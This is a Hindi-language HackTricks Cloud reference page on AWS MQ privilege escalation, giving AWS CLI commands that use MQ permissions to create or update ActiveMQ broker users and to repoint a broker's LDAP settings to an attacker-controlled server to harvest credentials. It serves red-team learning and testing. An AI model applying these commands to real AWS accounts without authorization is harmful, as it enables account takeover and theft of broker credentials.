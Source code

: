 # AWS - MQ विशेषाधिकार उन्नयन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को एक ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को एक ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **LDAP** का उपयोग **ActiveMQ** के लिए अधिकृति के लिए कर रहा है। तो यह संभावना है कि **LDAP सर्वर के विन्यास** को **बदला जा सकता है जिसे हमलावर द्वारा नियंत्रित किया जा सकता है**। इस तरह हमलावर को **LDAP के माध्यम से भेजे जा रहे सभी क्रेडेंशियल्स को चुरा सकता है**।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी प्रकार से ActiveMQ द्वारा उपयोग किए गए मूल क्रेडेंशियल्स को खोज सकते हैं तो आप MitM कार्रवाई कर सकते हैं, क्रेडेंशियल्स चुरा सकते हैं, मूल सर्वर में उन्हें उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद चोरी किए गए क्रेडेंशियल्स का पुनः उपयोग करके आप यह कर सकते हैं)।

**संभावित प्रभाव:** ActiveMQ क्रेडेंशियल्स चुराना
